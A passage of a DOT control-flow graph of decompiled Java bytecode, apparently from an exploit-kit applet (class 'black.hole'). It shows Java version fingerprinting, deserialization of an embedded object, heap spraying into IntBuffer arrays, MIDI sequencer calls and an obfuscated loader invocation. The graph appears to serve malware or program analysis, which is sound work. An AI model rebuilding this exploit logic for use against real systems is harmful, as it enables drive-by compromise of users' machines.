    "arraywrite.r"->"staticinvoke <dev.s.runer: java.lang.Object constructor(java.lang.String,java.lang.Object[],java.lang.Class[])>";
    "staticinvoke <dev.s.runer: java.lang.Object constructor(java.lang.String,java.lang.Object[],java.lang.Class[])>"->"checkcast";
    "checkcast"->"store.r r28";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"
    "store.r r28"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r28";
    "store.r r28"->"load.r r25";
    "push \"1.5.0\""
    "load.r r25"->"push \"1.5.0\"";
    "ifcmpeq.r new java.io.ObjectInputStream"
    "push \"1.5.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_01\""
    "load.r r25"->"push \"1.5.0_01\"";
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i new java.io.ObjectInputStream"
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_02\""
    "load.r r25"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_03\""
    "load.r r25"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_04\""
    "load.r r25"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_05\""
    "load.r r25"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_06\""
    "load.r r25"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_07\""
    "load.r r25"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_08\""
    "load.r r25"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_09\""
    "load.r r25"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_10\""
    "load.r r25"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_11\""
    "load.r r25"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_12\""
    "load.r r25"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_13\""
    "load.r r25"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_14\""
    "load.r r25"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_15\""
    "load.r r25"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_16\""
    "load.r r25"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0\""
    "load.r r25"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_01\""
    "load.r r25"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_02\""
    "load.r r25"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_03\""
    "load.r r25"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_04\""
    "load.r r25"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_05\""
    "load.r r25"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_06\""
    "load.r r25"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_07\""
    "load.r r25"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_10\""
    "load.r r25"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r25"
    "push -1"->"ifcmpeq.i load.r r25";
    "new java.io.ObjectInputStream"
    "ifcmpeq.i load.r r25"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "fieldget <black.hole: java.lang.String SO>"
    "load.r r0"->"fieldget <black.hole: java.lang.String SO>";
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"
    "fieldget <black.hole: java.lang.String SO>"->"staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>"->"store.r r28";
    "ifnull goto load.r r25"
    "store.r r28"->"ifnull goto load.r r25";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "ifnull goto load.r r25"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"ifnull goto load.r r25";
    "ifnull goto load.r r25"->"load.r r28";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "load.r r28"->"ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"push \"\"";
    "push \"\""->"store.r r28";
    "store.r r28"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"load.r r28";
    "load.r r28"->"push \"1\"";
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"
    "push \"1\""->"virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>";
    "goto load.r r25"
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"->"goto load.r r25";
    "goto load.r r25"->"load.r r25";
    "push \"1.5.0_17\""
    "load.r r25"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_18\""
    "load.r r25"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_19\""
    "load.r r25"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_20\""
    "load.r r25"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_21\""
    "load.r r25"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r25"
    "push 0"->"store.b r25";
    "store.b r25"->"goto load.r r26";
    "goto load.r r26"->"load.r r26";
    "load.r r26"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b r26"
    "push 1"->"store.b r26";
    "goto load.b r25"
    "store.b r26"->"goto load.b r25";
    "load.b r25"
    "goto load.b r25"->"load.b r25";
    "load.b r26"
    "load.b r25"->"load.b r26";
    "load.b r26"->"and.b";
    "ifeq return"
    "and.b"->"ifeq return";
    "ifeq return"->"push 47";
    "push 47"->"push 303";
    "push 303"->"staticinvoke <black.hole: java.lang.String repeat(char,int)>";
    "staticinvoke <black.hole: java.lang.String repeat(char,int)>"->"pop";
    "pop"->"load.r r20";
    "load.r r20"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 304"
    "push 47"->"push 304";
    "push 304"->"staticinvoke <black.hole: java.lang.String repeat(char,int)>";
    "staticinvoke <black.hole: java.lang.String repeat(char,int)>"->"store.r r20";
    "store.r r20"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r20";
    "load.r r20"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"$\\\"$\\\"$\\\"$\\\"$\\\"$\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"$\\\"$\\\"$\\\"$\\\"$\\\"$\\\"\"";
    "push \"$\\\"$\\\"$\\\"$\\\"$\\\"$\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r8";
    "store.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"push \"\"";
    "push \"\""->"store.r r20";
    "store.r r20"->"push 0";
    "store.i r24"
    "push 0"->"store.i r24";
    "goto load.i r24"
    "store.i r24"->"goto load.i r24";
    "load.i r24"
    "goto load.i r24"->"load.i r24";
    "load.i r24"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"ifcmplt.i new java.lang.StringBuilder";
    "goto load.r r20"
    "ifcmplt.i new java.lang.StringBuilder"->"goto load.r r20";
    "goto load.r r20"->"load.r r20";
    "load.r r20"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "rem.i"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r20";
    "load.r r20"->"load.r r16";
    "load.r r16"->"virtualinvoke <black.hole: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "virtualinvoke <black.hole: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <black.hole: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <black.hole: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"load.r r8";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r8"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"push 10L";
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
    "ifne new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r20";
    "load.r r20"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"26\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r20";
    "ifcmplt.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r20";
    "load.r r20"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "push \"toHexString\""
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"push \"toHexString\"";
    "push \"toHexString\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"load.i r24";
    "load.i r24"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r20";
    "inc.i r24 1"
    "store.r r20"->"inc.i r24 1";
    "iflt return"->"return";
    "ifeq return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b r26";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r25";
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"->"store.r r28";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r28"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r28";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r28"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"load.r r28";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "load.r r28"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "ifne new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r56";
    "ifcmplt.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"push \"toHexString\"";
    "push \"toHexString\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r51";
    "load.r $r51"->"load.i i53";
    "load.i i53"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r56";
    "inc.i i53 1"
    "store.r $r56"->"inc.i i53 1";
    "iflt return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b $r51";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r28";
    "ifcmpne.c load.i $r51"->"load.i $r51";
    "load.i $r51"->"load.r r26";
    "load.r r26"->"load.i $r56";
    "load.i $r56"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"add.i";
    "add.i"->"store.i $r51";
    "inc.i $r56 1"
    "store.i $r51"->"inc.i $r56 1";
}
